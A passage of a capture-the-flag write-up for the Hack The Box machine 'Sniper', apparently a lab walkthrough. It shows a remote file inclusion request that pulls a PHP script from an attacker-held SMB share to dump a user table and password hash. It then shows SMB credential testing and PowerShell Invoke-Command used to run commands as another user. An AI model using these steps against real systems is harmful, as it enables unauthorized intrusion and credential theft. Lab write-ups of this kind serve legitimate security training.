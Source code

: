     echo "0 results";
}
mysqli_close($conn);
?>
{% endhighlight %}

Viewing the results:
{% highlight bash %}
$ curl 'http://sniper.htb/blog/?lang=\\10.10.XX.XX\public\dump.php'
...
Array
(
    [id] => 1
    [username] => superuser
    [email] => admin@sniper.co
    [password] => 6e573c8b25e9168e0c61895d821a3d57
    [trn_date] => 2019-04-11 22:45:36
)
...
{% endhighlight %}

Putting the hash into Google (Yes Google), turns out it was the MD5 hash of `$uperpassw0rd`.

Using `smbmap`, I decided to manually test possible pairs of credentials since the password list was short:
{% highlight bash %}
smbmap -H sniper.htb -u Chris -p "$uperpassw0rd"
[+] Finding open SMB ports....
[!] Authentication error on sniper.htb
[!] Authentication error on sniper.htb
root@kali:~/Desktop# smbmap -H sniper.htb -u Chris -p 36mEAhz/B8xQ~2VM
[+] Finding open SMB ports....
[+] User SMB session established on sniper.htb...
[+] IP: sniper.htb:445  Name: unknown                                           
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
		...
        IPC$                                                    READ ONLY       Remote IPC
{% endhighlight %}

Alright, we got Chris's credentials. To login into `Chris`, we will need to do something like a `su` or `sudo` in Linux but for Windows! In Powershell, there is a cmdlet called [`Invoke-Command`](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/invoke-command?view=powershell-7) which allows you to specify who to run as using `-Credential` or `-Session`.

Testing `Invoke-Command`:
{% highlight raw %}
C:\inetpub\wwwroot\blog>powershell
powershell
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.
PS C:\inetpub\wwwroot\blog> $SecPassword = ConvertTo-SecureString '36mEAhz/B8xQ~2VM' -AsPlainText -Force
PS C:\inetpub\wwwroot\blog> $Cred = New-Object System.Management.Automation.PSCredential('.\Chris', $SecPassword)
PS C:\inetpub\wwwroot\blog> $TestPCSession = New-PSSession -Credential $Cred
PS C:\inetpub\wwwroot\blog> Invoke-Command -Session $TestPCSession -ScriptBlock {cmd.exe /c whoami}
sniper\chris
{% endhighlight %}
